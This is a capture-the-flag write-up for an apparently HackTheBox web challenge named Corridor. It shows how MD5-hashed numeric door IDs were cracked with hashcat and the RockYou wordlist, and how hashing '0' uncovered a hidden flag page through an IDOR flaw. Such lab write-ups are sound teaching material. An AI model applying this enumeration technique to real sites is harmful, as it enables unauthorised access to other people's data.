 # Corridor — HTB Web Challenge Write-up

**Challenge Name:** Corridor  
**IP Address:** `10.10.85.247`  
**Category:** Web Exploitation  
**Difficulty:** Easy-Medium  
**Tools Used:** Hashcat, RockYou, md5sum

---

## Initial Recon

After visiting the target IP (`http://10.10.85.247`), I encountered a webpage that displayed a **corridor with multiple doors**. Clicking on each door redirected me to URLs in this format:

```
http://10.10.85.247/<hash>
```

Each path appeared to be an **MD5 hash**, suggesting an Insecure Direct Object Reference (IDOR) vulnerability using hashed values.

---

## Hash Identification

I extracted one example hash from the URL:  
`c4ca4238a0b923820dcc509a6f75849b`

I suspected it was the hash of a number, so I used `hashcat` to attempt to crack it:

```bash
hashcat -m 0 -a 0 c4ca4238a0b923820dcc509a6f75849b /usr/share/wordlists/rockyou.txt --force
```

Output:
```
c4ca4238a0b923820dcc509a6f75849b:1
```

This confirmed that the application was hashing numeric values for door identifiers.

---

## Bulk Cracking

I collected the remaining door hashes into a file named `corridor_lab.txt`, then ran:

```bash
hashcat -m 0 -a 0 ~/Desktop/corridor_lab.txt /usr/share/wordlists/rockyou.txt --force
```

### Cracked Hashes:

| Hash                                    | Plaintext |
|-----------------------------------------|-----------|
| c20ad4d76fe97759aa27a0c99bff6710        | 12        |
| 6512bd43d9caa6e02c990b0a82652dca        | 11        |
| c51ce410c124a10e0db5e4b97fc2af39        | 13        |
| 8f14e45fceea167a5a36dedd4bea2543        | 7         |
| eccbc87e4b5ce2fe28308fd9f2a7baf3        | 3         |
| d3d9446802a44259755d38e6d163e820        | 10        |
| 45c48cce2e2d7fbdea1afc51c7c6ad26        | 9         |
| c81e728d9d4c2f636f067f89cc14862c        | 2         |
| 1679091c5a880faf6fb5e6087eb1b2dc        | 6         |
| e4da3b7fbbce2345d7772b0674a318d5        | 5         |
| c9f0f895fb98ab9159f51fd0297e236d        | 8         |
| a87ff679a2f3e71d9181a67b7542122c        | 4         |

---

## IDOR Exploitation

The hashes matched predictable values (`MD5(number)`), so I tested for sensitive endpoints by hashing:

```bash
echo -n "admin.php" | md5sum
# 2a524880b4d504a3da21007051e59146

echo -n "flag.txt" | md5sum
# 159df48875627e2f7f66dae584c5e3a5
```

Neither of these returned anything. Then I tried:

```bash
echo -n "0" | md5sum
# cfcd208495d565ef66e7dff9f98764da
```

Navigating to `http://10.10.85.247/cfcd208495d565ef66e7dff9f98764da` revealed the **flag**.

---

## Final Flag

```
flag{...}
```

---

## Key Takeaways

- IDOR combined with MD5 hashing allowed brute-forcing hidden endpoints.
- Predictable patterns like numeric sequences are dangerous if hashed without extra protection (e.g., salting).
- Hashcat + RockYou is a powerful combo for identifying plaintext values.

